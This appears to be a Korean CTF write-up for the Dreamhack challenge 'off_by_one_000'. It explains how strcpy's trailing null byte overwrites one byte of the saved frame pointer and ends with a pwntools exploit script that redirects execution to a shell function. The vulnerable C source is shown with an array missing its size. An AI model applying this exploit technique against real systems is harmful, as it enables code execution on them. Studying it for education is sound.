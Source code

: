 ```yaml
---
layout: post
title: Dreamhack | Off By One_000
subtitle: Dreamhack-Pwnable off_by_one_000
categories: Pwnable
tags: [Pwnable, dreakhack, Shell, Pentest]
---
```


**본 문제는 Dreamhack을 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://dreamhack.io/wargame/challenges/">dreamhack.io</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/203474983-23dde79e-d280-47c5-b652-e55fc4974053.jpg" width = 550>
</p>

**Off-by-one 취약점**은 경계 검사에서 하나의 오차가 있을 때 발생하는 취약점입니다. 이는 버퍼의 경계 계산 혹은 반복문의 횟수 계산 시 `<` 대신 `<=`을 쓰거나, 0부터 시작하는 인덱스를 고려하지 못할 때 발생합니다.

## 문제 풀이

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char cp_name[256];

void get_shell()
{
    system("/bin/sh");
}

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int cpy()
{
    char real_name[];
    strcpy(real_name, cp_name);
    return 0;
}

int main()
{
    initialize();
    printf("Name: ");
    read(0, cp_name, sizeof(cp_name));

    cpy();

    printf("Name: %s", cp_name);

    return 0;
}

`get_shell()` 함수가 포함되어 있기에 RET를 이 함수로 덮으면 될 것으로 예상이 된다.

```C
read(0, cp_name, sizeof(cp_name));
```

```
0x08048685 <+21>:    push   0x100
0x0804868a <+26>:    push   0x804a060
0x0804868f <+31>:    push   0x0
0x08048691 <+33>:    call   0x8048430 <read@plt>
```

`cp_name`는 256byte로 해당 전역변수에 입력 값을 할당하고 있다.

`cpy`함수를 보면 아래처럼 나오게 된다.

```armasm
0x0804864c <+0>:     push   ebp
0x0804864d <+1>:     mov    ebp,esp
0x0804864f <+3>:     sub    esp,0x100
0x08048655 <+9>:     push   0x804a060 // <-- cpname
0x0804865a <+14>:    lea    eax,[ebp-0x100]
0x08048660 <+20>:    push   eax
0x08048661 <+21>:    call   0x8048470 <strcpy@plt>
0x08048666 <+26>:    add    esp,0x8
0x08048669 <+29>:    mov    eax,0x0
0x0804866e <+34>:    leave
0x0804866f <+35>:    ret
```

정해진 256byte를 입력받기에 RET까지의 Over write는 불가능할 것으로 보인다. 하지만, `read()`함수는 마지막에 **\n**를 포함시켜서 저장하고, cpy()의 `strcpy()`는 `\n`직전까지의 값을 복사하는 것이 아닌  끝나는 **NULL 문자(\x00)**를 포함하여 string2를 string1에서 지정한 위치로 복사하여 모든 값을 넣기에 256byte의 값이 아닌 257byte의 값을 버퍼에 넣게 된다.

취약해보이는 cpy의 버퍼를 보게 되면 ebp와 esp는 256byte 차이이고, 만약 1byte가 넘어가게 되면 SFP의 1byte를 overwrite하게 된다.

* **cpy** 메모리

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/208592228-851f59c5-82fd-4833-b738-6d1d244332eb.png" width = 420>
</p>

**RED** 박스는 `cpy`의 SFP가 되고, **YELLOW** 박스는 `cpy`의 RET가 된다.

* cpy return 이후 **main** 메모리

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/208594072-0e319389-bebb-4fd7-9dbe-244fdc5c9142.png" width = 420>
</p>

`eip`의 값을 보면 cpy 메모리에서 노란색 RET의 값이고, 이것은 cpy 메모리에서 빨간색 SFP가 가리키던 값이 된다.

**cpy SFP 메모리 주소 = cpy RET 메모리 값 = return 이후 main의 eip**

main RET, cpy RET의 값을 BOF로 변경할 수 없으므로, strcpy의 **off by one** 취약점을 이용해 cpy SFP를 변경하면 된다.

`strcpy`시 마지막 널 바이트가 포함되므로 cpy SFP는 **0xff9a0b88**가 아닌 **0xff9a0b00**이 된다.

이 값은 strcpy에 포함되는 범위이기에 get_shell를 256byte만큼 도배하면 된다.

```python
from pwn import *

p = remote('host3.dreamhack.games', 20769)
e = ELF('./off_by_one_000')

get_shell = e.symbols['get_shell']
payload = b''

for i in range(64):
    payload += p32(get_shell)
p.send(payload)
p.interactive()
```